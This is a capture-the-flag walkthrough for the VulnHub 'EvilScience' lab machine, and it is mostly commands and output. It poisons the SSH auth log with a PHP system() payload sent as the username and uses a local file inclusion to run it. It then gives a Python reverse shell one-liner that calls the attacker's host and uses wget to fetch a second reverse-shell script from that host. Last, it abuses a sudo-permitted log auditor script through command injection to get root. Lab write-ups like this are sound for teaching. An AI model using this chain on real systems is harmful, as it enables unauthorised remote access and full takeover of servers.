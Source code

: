 EvilScene

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
To exploit ssh ‘<?php system($_GET[‘C’]);?>’@192.168.1.146
[+] Local File Inclusion LFI = in access log /var/log/auth.log -  SSH log -LFI
[+] Python Reverse Shell
[+] Privilege Escalation abusing SUDO rights - xxxlogauditorxxx.py
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.105
Host is up (0.00055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:09:bc:b1:5c:c9:bd:c3:ca:0f:b1:d5:c3:7d:98:1e (RSA)
|   256 de:77:4d:81:a0:93:da:00:53:3d:4a:30:bd:7e:35:7d (ECDSA)
|_  256 86:6c:7c:4b:04:7e:57:4f:68:16:a9:74:4c:0d:2f:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: The Ether
MAC Address: 08:00:27:AE:7A:3D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Testing for Local File Inclusion 
We found that we can access /var/log/auth.log

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Evilscience/evil1.png)


To exploit we leverage the auth log

ssh "<?php echo system($_GET[’cmd']);?>"@192.168.56.105

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh "<?php echo system($_GET['cmd']);?>"@192.168.56.105
<?php echo system(['cmd']);?>@192.168.56.105's password: 
Permission denied, please try again.
<?php echo system(['cmd']);?>@192.168.56.105's password: 
Permission denied, please try again.
<?php echo system(['cmd']);?>@192.168.56.105's password: 
<?php echo system(['cmd']);?>@192.168.56.105: Permission denied (publickey,password).

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Reverse shell - Remote Command Execution
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Evilscience/evil2.png)


Getting a reverse shell using python:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

This is URL encoded and send to the server:

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Evilscience/evil3.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.105] 50232
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash");'
bash-4.3$ 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
bash-4.3$ pwd
pwd
/var/www/html/theEther.com/public_html
bash-4.3$ sudo -l
sudo -l
sudo: unable to resolve host theEther: Connection refused
Matching Defaults entries for www-data on theEther:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on theEther:
    (ALL) NOPASSWD: /var/www/html/theEther.com/public_html/xxxlogauditorxxx.py
    (root) NOPASSWD: /var/www/html/theEther.com/public_html/xxxlogauditorxxx.py

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@theEther:/var/www/html/theEther.com/public_html$ wget http://192.168.56.102:8787/log.py -O /tmp/log.py
<tml$ wget http://192.168.56.102:8787/log.py -O /tmp/log.py                  
--2019-10-20 01:29:11--  http://192.168.56.102:8787/log.py
Connecting to 192.168.56.102:8787... connected.
HTTP request sent, awaiting response... 200 OK
Length: 243 [text/plain]
Saving to: '/tmp/log.py'

/tmp/log.py         100%[===================>]     243  --.-KB/s    in 0s      

2019-10-20 01:29:11 (59.2 MB/s) - '/tmp/log.py' saved [243/243]

$ cat /tmp/log.py
#!/usr/bin/python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.102",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
ssp=subprocess.call(["/bin/sh","-i"]);




www-data@theEther:/var/www/html/theEther.com/public_html$ chmod +x /tmp/log.py
<html/theEther.com/public_html$ chmod +x /tmp/log.py                         
www-data@theEther:/var/www/html/theEther.com/public_html$ sudo ./xxxlogauditorxxx.py
<html/theEther.com/public_html$ sudo ./xxxlogauditorxxx.py                   
sudo: unable to resolve host theEther: Connection refused
===============================
Log Auditor
===============================
Logs available
-------------------------------
/var/log/auth.log
/var/log/apache2/access.log
-------------------------------

Load which log?: /var/log/auth.log | /tmp/log.py
/var/log/auth.log | /tmp/log.py

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Root Shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.105] 50976
# id
uid=0(root) gid=0(root) groups=0(root)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



